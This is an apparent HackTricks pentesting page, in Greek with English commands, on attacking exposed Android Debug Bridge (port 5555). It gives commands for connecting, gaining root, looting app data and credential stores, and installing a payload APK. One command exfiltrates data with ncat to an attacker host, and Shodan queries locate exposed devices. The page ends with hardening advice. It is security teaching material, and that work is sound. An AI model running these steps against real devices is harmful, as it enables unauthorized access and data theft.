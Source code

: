 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Basic Information

Από [the docs](https://developer.android.com/studio/command-line/adb):

Το Android Debug Bridge (adb) είναι ένα εργαλείο γραμμής εντολών για επικοινωνία με συσκευές και εξομοιωτές που βασίζονται σε Android. Τυπικές ενέργειες περιλαμβάνουν την εγκατάσταση πακέτων, την αποσφαλμάτωση και την απόκτηση ενός διαδραστικού Unix shell στη συσκευή.

- Ιστορική προεπιλεγμένη θύρα TCP: 5555 (κλασική λειτουργία "adb tcpip").
- Σύγχρονη ασύρματη αποσφαλμάτωση (Android 11+) χρησιμοποιεί TLS pairing και mDNS service discovery. Η θύρα σύνδεσης είναι δυναμική και ανακαλύπτεται μέσω mDNS; μπορεί να μην είναι 5555. Η ζεύξη γίνεται με adb pair host:port ακολουθούμενη από adb connect. Δείτε τις σημειώσεις παρακάτω για επιθετικές επιπτώσεις.

Example nmap fingerprint:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Συνδέσου

Αν βρεις το ADB εκτεθειμένο και προσβάσιμο, προσπάθησε να συνδεθείς και να καταγράψεις γρήγορα:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Αν η συσκευή επιβάλλει την αυθεντικοποίηση ADB (ro.adb.secure=1), θα χρειαστεί να είστε προεξουσιοδοτημένοι (USB RSA auth) ή να χρησιμοποιήσετε την ασύρματη ζεύξη αποσφαλμάτωσης Android 11+ (η οποία απαιτεί έναν κωδικό μίας χρήσης που εμφανίζεται στη συσκευή).
- Ορισμένες εικόνες προμηθευτών, κατασκευές engineering/userdebug, εξομοιωτές, τηλεοράσεις, STBs και κιτ ανάπτυξης εκθέτουν το adbd χωρίς αυθεντικοποίηση ή με το adbd να τρέχει ως root. Σε αυτές τις περιπτώσεις, θα προσγειωθείτε συνήθως απευθείας σε ένα shell ή root shell.

Για μια γενική αναφορά εντολών ADB, δείτε:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Γρήγορη Μετά-Εκμετάλλευση

Μόλις έχετε shell, επιβεβαιώστε τα δικαιώματα και το πλαίσιο SELinux:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Καταμέτρηση και συλλογή δεδομένων

- Λίστα τρίτων εφαρμογών και διαδρομών:
```bash
pm list packages -3
pm path <pkg>
```
- Αν έχετε root (adb root ή su λειτουργεί), μπορείτε να έχετε πρόσβαση στο /data απευθείας. Αν όχι, προτιμήστε το run-as για εφαρμογές που μπορούν να αποσφαλματωθούν:
```bash
# Χωρίς root, για μια αποσφαλματωμένη εφαρμογή
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Με root
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Χρήσιμα συστήματα τεκμηρίωσης (απαιτείται root):
- /data/system/users/0/accounts.db και σχετικά δεδομένα AccountManager
- /data/misc/wifi/ (ρυθμίσεις/κλειδιά δικτύου σε παλαιότερες εκδόσεις)
- Ειδικές βάσεις δεδομένων SQLite και shared_prefs κάτω από /data/data/<pkg>

Μπορείτε να το χρησιμοποιήσετε για να ανακτήσετε ευαίσθητες πληροφορίες (π.χ., μυστικά εφαρμογής). Για σημειώσεις σχετικά με τις παρατηρήσεις δεδομένων του Chrome, δείτε το ζήτημα που αναφέρεται [εδώ](https://github.com/carlospolop/hacktricks/issues/274).

### Εκτέλεση κώδικα και παράδοση payload

- Εγκαταστήστε και αυτόματα παραχωρήστε δικαιώματα εκτέλεσης:
```bash
adb install -r -g payload.apk         # -g παραχωρεί όλα τα δικαιώματα εκτέλεσης που δηλώνονται στο manifest
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Ξεκινήστε δραστηριότητες/υπηρεσίες/μεταδόσεις απευθείας:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Προώθηση θυρών και pivoting

Ακόμα και χωρίς root, το adb μπορεί να προωθήσει τοπικές θύρες σε θύρες συσκευής και το αντίστροφο. Αυτό είναι χρήσιμο για την πρόσβαση σε υπηρεσίες που είναι δεσμευμένες τοπικά στη συσκευή ή για την έκθεση υπηρεσιών επιτιθέμενου στη συσκευή.

- Προώθηση host->device (πρόσβαση σε μια τοπική υπηρεσία της συσκευής από τον υπολογιστή σας):
```bash
adb forward tcp:2222 tcp:22       # Αν η συσκευή τρέχει SSH (π.χ., Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Έκθεση τοπικού διακομιστή αποσφαλμάτωσης της εφαρμογής
```
- Αντίστροφη device->host (να επιτρέψετε στη συσκευή να φτάσει σε μια υπηρεσία στον υπολογιστή σας):
```bash
adb reverse tcp:1080 tcp:1080     # Οι εφαρμογές της συσκευής μπορούν τώρα να φτάσουν στο host:1080 ως 127.0.0.1:1080
```
- Εξαγωγή αρχείων μέσω sockets (χωρίς εγγραφές sdcard):
```bash
# Στον υπολογιστή: άκου
ncat -lvp 9000 > dump.tar
# Στη συσκευή: στείλτε τον κατάλογο ως tar (root ή run-as όπως απαιτείται)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Ασύρματη αποσφαλμάτωση (Android 11+)

Ο σύγχρονος Android υλοποιεί την ασύρματη αποσφαλμάτωση προστατευμένη με TLS με ζευγάρωμα από την πλευρά της συσκευής και ανακάλυψη mDNS:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Σημειώσεις
- Οι θύρες είναι δυναμικές; μην υποθέτετε 5555. Τα ονόματα υπηρεσιών mDNS μοιάζουν με:
- _adb-tls-pairing._tcp (ζευγάρωμα)
- _adb-tls-connect._tcp (συνδεδεμένο ζευγάρωμα)
- _adb._tcp (παλαιά/απλή)
- Εάν το mDNS είναι φιλτραρισμένο, η κλασική ενεργοποίηση μέσω USB μπορεί να λειτουργήσει σε ορισμένες εκδόσεις: `adb tcpip 5555` και στη συνέχεια `adb connect <ip>:5555` (μέχρι την επανεκκίνηση).

Επιθετικές επιπτώσεις: εάν μπορείτε να αλληλεπιδράσετε με το UI της συσκευής (π.χ., φυσική πρόσβαση ή κακή ρύθμιση MDM κινητού) για να ενεργοποιήσετε την ασύρματη αποσφαλμάτωση και να δείτε τον κωδικό ζευγαρώματος, μπορείτε να δημιουργήσετε ένα μακροχρόνιο ζευγαρωμένο κανάλι ADB χωρίς καλώδιο. Ορισμένοι OEMs εκθέτουν το ADB μέσω TCP σε εικόνες μηχανικής/ανάπτυξης χωρίς ζευγάρωμα—πάντα ελέγξτε.

## Σκληροποίηση / Ανίχνευση

Οι αμυντικοί θα πρέπει να υποθέτουν ότι οποιοδήποτε προσβάσιμο adbd (TCP) είναι κρίσιμος κίνδυνος.

- Απενεργοποιήστε το ADB και την ασύρματη αποσφαλμάτωση όταν δεν χρειάζεστε. Ανακαλέστε τις εξουσιοδοτήσεις αποσφαλμάτωσης USB στις επιλογές προγραμματιστή.
- Βεβαιωθείτε ότι η πολιτική δικτύου αποκλείει την εισερχόμενη TCP/5555 και την ανακάλυψη ADB μέσω mDNS σε μη αξιόπιστα τμήματα.
- Σε συσκευές υπό τον έλεγχό σας:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # απενεργοποίηση ακρόασης TCP (ή χρησιμοποιήστε: adb usb)
stop adbd; start adbd             # επανεκκίνηση του δαίμονα
```
- Παρακολουθήστε για εγγραφές mDNS `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` σε εταιρικά δίκτυα και ειδοποιήσεις για απροσδόκητους ακροατές 5555.
- Καταγράψτε για ανασφαλείς εκδόσεις: `getprop ro.debuggable`, `ro.build.type`, και `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Αναφορές

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
